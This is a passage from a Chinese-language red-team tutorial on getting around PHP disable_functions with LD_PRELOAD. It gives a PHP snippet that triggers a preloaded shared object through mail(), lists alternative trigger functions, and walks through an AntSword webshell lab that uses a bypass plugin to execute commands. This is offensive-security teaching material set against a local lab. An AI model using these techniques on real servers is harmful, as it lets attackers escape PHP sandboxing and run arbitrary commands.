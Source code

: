 ![](../../../../../assets/img/Security/RedTeam/语言安全/PHP安全/bypass_disable_function/3.png)

也可以传入如下 php 文件

```php
<?php
putenv("LD_PRELOAD=./test.so");
mail('','','','');
?>
```

访问 php 文件就可以运行刚才的命令了

如果 `mail()` 函数无法使用，也可以使用 `error_log('',1)` 或者 `mb_send_mail('','','')` 和 `imap_mail("1@a.com","0","1","2","3")`（如果 PHP 开启了 imap 模块）

**蚁剑靶场测试**

```
git clone https://github.com/AntSwordProject/AntSword-Labs.git
cd AntSword-Labs/bypass_disable_functions/1
docker-compose up -d
```

连接 http://127.0.0.1:18080/index.php	ant

使用「绕过 disable_functions」插件, 选择 LD_PRELOAD 模式进行

成功后可以看到目录下新建了一个 .antproxy.php 文件。我们创建副本, 并将连接的 URL shell 脚本名字改为 .antproxy.php, 就可以成功执行命令。

![](../../../../../assets/img/Security/RedTeam/语言安全/PHP安全/bypass_disable_function/4.png)

---